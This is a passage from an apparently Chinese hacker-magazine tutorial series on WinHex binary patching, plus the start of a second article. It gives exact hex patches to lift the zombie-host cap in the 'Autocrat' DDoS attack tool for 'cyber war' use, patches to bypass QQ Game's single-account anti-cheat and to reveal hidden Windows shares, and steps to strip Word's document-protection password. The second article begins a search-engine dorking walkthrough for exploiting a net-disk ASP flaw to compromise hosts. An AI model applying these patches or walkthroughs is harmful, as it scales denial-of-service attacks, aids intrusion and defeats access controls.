以后再启动 SWF 探索者播放器就不会再出现“讨厌”的窗口了，而且可以无限制地长期使用下去（原本只能使用 30 天）。

#### 七、将 Windows 98 伪装成 UNIX

Windows 98 登录方式安全性不高。可利用 WinHex 修改系统启动字符串，把 Windows 98 伪装成 UNIX，从而迷惑入侵者。方法是打开根目录下的 IO.SYS，搜索文本“Starting Windows 98”。



图15



图16

把这些字符串替换为“SCO UNIX 5.0/”等内容；再继续搜索“The following file is missing or corrupt:”并清空相关提示字串，以及“command.com”等内容。保存后，开机显示将类似 UNIX 提示。



图17

Command Interpreter（e.g. `C:\WINDOWS\COMMAND.COM`）（没有引号）找到后替换为“`Login:`”（同样没有引号），注意字符数一定要一样多，所以多余的字符部分要用空白内容替换掉。这样在他人启动你的电脑时，将会出现一个“`Login:`”提示符，和 UNIX 更相像了。单击“文件”菜单中的“保存”退出 WinHex，完成初步加密工作。

现在，请大家找到系统所在盘下的 `msdos.sys` 文件，用记事本打开它，在里面加入 `logo=0` 这一行，这样就可以把 Windows 98 启动时的蓝天白云画面给去掉，防止别人看出破绽；再加入 `bootkeys=0` 这一行，使启动过程中按 F4、F5、F6、F8 这些键失去作用，防止别人进入安全模式或 DOS 下。接下来把系统中的 `command.com` 文件改名为 `hudie.com`，并移动到一个只有你自己知道的文件夹下（假设是 `C:\Windows\system\hudie.com`）。现在，请你重新启动电脑看看效果，和 UNIX 很相像吧？对于大多数人来说，肯定认为系统装的是 SCO UNIX 5.07，从而不再试图进入你的电脑！

如果自己要进入 Windows，则在命令提示符 `C:\>` 后面输入 `C:\Windows\system\aj.com` 并回车，然后再键入 `Win`，回车之后就可以进入 Windows 了。

#### 八、突破独裁者 DDoS 攻击器的限制

独裁者 DDoS 攻击器（Autocrat）是进行网络 DDoS 攻击的软件。在黑客卫国的网络战争中还是很有用的。DDoS 攻击器支持 4 种攻击方法：SYN、LAND、FakePing 和狂怒之 Ping。在独裁者 DDoS 攻击器中最多允许添加 10 台主机作为“僵尸机”攻击对方，如果添加的主机数超过 10 个时就会弹出一个对话框，提示已经超过主机上限，禁止添加，如图18所示。


图18

具体方法是：运行 WinHex，用它打开独裁者 DDoS 攻击器所带的 `Client.exe` 文件，单击“搜索”菜单下的“查找16进制数值”，搜索代码 `0F8412050000`，并把搜索到的代码改为 `0F8012050000`，接下来再搜索代码 `0F84D5020000`，找到后把它改为 `0F80D5020000`，最后保存，退出 WinHex 即可。这样就可以突破独裁者 DDoS 攻击器只能添加 10 台主机的限制，在未来的网络战争中我们就可以添加任意台“僵尸”主机对敌对势力进行 DDoS 攻击了，如图19所示。



图19

请大家一定不要使用独裁者 DDoS 攻击器对国内网站进行攻击，己所不欲，勿施于人！

> DDoS 是 Distributed Denial of Service 的缩写，意思是分布式拒绝服务攻击。它是指借助于网络客户/服务技术，将多个“僵尸机”联合起来作为攻击平台，对一个或多个目标发动 DoS 攻击，从而成倍地提高攻击的能力。由于 DDoS 攻击利用了 TCP/IP 协议的漏洞，所以非常难以防范。

## 九、从 EXE 格式的 Flash 动画中分解出 swf 文件

Flash 动画大家都喜欢，不过网上的 Flash 作品有许多都是 EXE 格式的，EXE 格式的 Flash 不仅不能用于网页制作，更不能让我们方便地分析 Action 等对学习有用的内容。其实，我们可以利用 WinHex 从 EXE 格式的 Flash 动画中分解出 swf 文件，供我们研究。

具体方法：在此我们以“唐僧与白骨精”这个 EXE 格式的爆笑 Flash 动画为例来说明，下载地址是 `http://download.online.sh.cn/redirect.php?soft_id=3029&down_url=/pub/desktop/game/tsybgj.zip`。用 WinHex 打开该 EXE 文件，然后单击“搜索”菜单下的“查找文本”，会弹出“查找文本”窗口，在“下列文本字符将被搜索(S):”栏中输入大写的“FWS”（实际输入时不要引号），把“区分大小写”勾选上，单击“确定”会找到唯一的一处结果，其偏移地址为 `0005C000`（在屏幕左边看“Offset”这一列中与“FWS”对应的地址，如图20所示）。这是 Flash 文件开始部分的标识符。



图20

在文件结尾处，你会发现最后 8 个字节是 `56 34 12 FA 14 06 0F 00`，如图21所示。



图21

其中“56 34 12 FA”是 EXE 格式的 Flash 文件的结束标识符（对应的偏移地址为 `0014C614`），那剩下的“14 06 0F 00”是什么呢？它其实就是 EXE 格式的 Flash 文件中所包含的 swf 文件的长度！你把低字节和高字节逆序排列就会得到 `000F0614`，转换为十进制就是 `984596`，也就是这个 swf 文件的大小！如果你不信的话，可以用 swf 文件的结束 `0014C614` 减去起始地址 `0005C000`，其结果转换为十进制就是 `984596`，由此可以证明我们的观点！

下面的事情就好办了。在 swf 代码串的开头部分即 `0005C000` 处按鼠标右键，在弹出的快捷菜单中选择“选块开始”；然后到 swf 文件结尾处（对应的偏移地址为 `0014C613`）按鼠标右键，在弹出的快捷菜单中选择“选块结尾”；依次单击“编辑”→“复制选块”→“进入新文件”，如图22所示。



图22

在弹出的“文件另存为”窗口中给这个待恢复的 swf 文件起个名字，然后点“保存”按钮，就会从 EXE 格式的 Flash 文件中分解出一个 swf 文件，单击运行它试试，成功！

#### 十、用多个账号登录 QQ 游戏

大家知道，在 QQ 游戏中只要用自己的 QQ 号码和密码登录到游戏大厅就可以玩各种游戏。为防止作弊会限定每次只能使用一个 QQ 账号登录，其实，我们可以突破这个限制的，利用 WinHex 可以让我们使用多个账号登录 QQ 游戏。

具体方法：运行 WinHex，单击工具栏上的“打开”按钮，找到 `C:\Program Files\Tencent\QQGame` 文件夹，用鼠标指向里面的 QQGame.exe 文件，单击“打开”按钮用 WinHex 打开它，然后点击“搜索”菜单下的“查找16进制数值”，出现“查找16进制数值”对话框，在该对话框的“下列16进制数值将被搜索”一栏中输入 `E87707000085C07459`，单击“确定”按钮 WinHex 就会找到上述代码，把上述代码改为 `E87707000085C09090`，接下来单击工具栏上的“保存”按钮，最后关闭 WinHex 即可。

#### 十一、让 Windows 能显示出隐藏的共享

大家知道，在 Windows 中设置共享时，只要在共享名后加上“$”就可以使共享隐藏起来。比如，我们在共享 C 盘时，将其共享名设为 C$，就可以达到隐藏 C 盘共享的目的，此时只有通过输入该共享的确切路径才能访问它。但是，这个“$”符号真的那么神奇吗？不见得！我们只要将 `C:\Windows\system` 文件夹中的 msnp32.dll 文件稍做修改，就可以让 Windows 显示出隐藏的共享。

具体方法：由于在 Windows 下 msnp32.dll 文件会被调用，此时不能直接修改该文件，所以我们要先复制 msnp32.dll 到 C 盘根目录下并改名为 msnp32，然后运行 WinHex 并用它打开 msnp32，点击“搜索”→“查找16进制数值”，会出现“查找16进制数值”对话框，在“下列16进制数值将被搜索”一栏中输入 `2456E817`，单击“确定”按钮进行查找，找到后改为 `0056E817`，然后保存修改结果，关闭 WinHex 即可。重启计算机进入 DOS 下，在命令行下输入 `copy c:\msnp32 c:\Windows\system\msnp32.dll`，把修改后的文件拷贝回原目录下覆盖原文件，重启电脑进入 Windows，就可以让 Windows 显示出隐藏的共享。注意，该技巧只对 Windows 9x 有效。

#### 十二、忘记 Word 的保护文档密码也不怕

大家都知道，在 Word 中可以通过选择“工具”菜单中的“保护文档”选项，然后输入密码来保护 Word 文档。除非你知道该密码，否则对此文档只能观看而不能修改，如果密码忘记了，可以利用 WinHex 来简单地解除这个密码保护，WinHex 真是无所不能啊！

具体方法如下：

- 第一步，首先要有一个由 Word 2000/XP/2003 创建的已设置有密码的“保护文档”（DOC 格式文件）。以 Word XP 为例，只要在 Word 中选择“工具”菜单下的“保护文档”，在出现的“保护内容”窗口中选择“窗体”，并设置一个密码。如图23所示。然后保存为 DOC 文件即可。



图23

- 第二步，用 Word 2003 打开该 DOC 文档，然后点击“文件”菜单中的“另存为”，出现“另存为”窗口。在该窗口的“保存类型”中选择“网页（*.htm;*.html）”，输入文件名，点击“保存”即可得到一个 HTML 文件。接下来关闭 Word 2003，注意只能使用 Word 2003 打开该文档并保存为 HTML 文件才行。

- 第三步，用“记事本”或其他字处理软件打开上一步中保存的 HTML 文件，点击“编辑”菜单中的“查找”，会出现“查找”对话框，在该窗口的“查找内容(N):”栏中输入 UnprotectPassword，点击“查找下一个”，会发现如图24所示。



图24

在“`<w:UnprotectPassword>`”和“`</w:UnprotectPassword>`”之间的内容就是你设置的密码加密后的十六进制形式。记下该密码，在本例中为“7A9DC613”，然后关闭“记事本”或你使用的其他字处理软件。

- 第四步，运行 WinHex，用 WinHex 打开该 DOC 文档，然后点击“搜索”菜单中的“查找16进制数值”，会出现一个对话框，在“下列16进制数值将被搜索”一栏中输入你刚刚记下的十六进制加密密码。注意，要反序查找。比如说，我们刚刚记下的是 7A9DC613，在查找时就要输入 13C69D7A。点击“确定”按钮，就会找到以上代码。如图25所示。



图25

将它们改为 00000000，然后点击“文件”菜单中的“保存”即可。

- 第五步，用 Word 2003 打开那个带有密码保护的 DOC 文档，点击“工具”菜单中的“取消密码保护”。这样就再也不会出现要你输入密码的对话框，密码已经为空！你可以随意编辑该文档，它与没有经过保护的文档毫无差别。如果你的“保护文档”密码忘记了，此时就可以试试这个方法，百试百灵！

适合读者：网民，网络新手

前置知识：无

## 用搜索引擎找自己漏洞的网站

（桃源网络硬盘漏洞利用）

文/图：玫瑰下的烂泥鳅

今天我演示一下利用“桃源网络硬盘”的另存 ASP 文件漏洞来找肉鸡！首先在搜索引擎里搜关键词“登录 保留 2005 桃源工作室版权所有”，如图1所示。

点击进去当然是要注册一个 ID，在这之前，我已注册了一个 abcxd 的 ID，注册如图2所示。

登录进去后就上传一个 TXT 文件，如图3所示。其实这个不太重要，我只是方便得到那个在线的文本编辑 URL，如果你知道它的在线编辑文本的 URL，可以直接进入，如图4所示。

按着 Shift 键单击那个编辑的图标就新建一个页面进入该文本的编辑，如图5所示。



图1


## KAI 最新奉献  
NEW TOPIC  
（栏目编辑）刘涛 / liuliu@hacker.com.cn

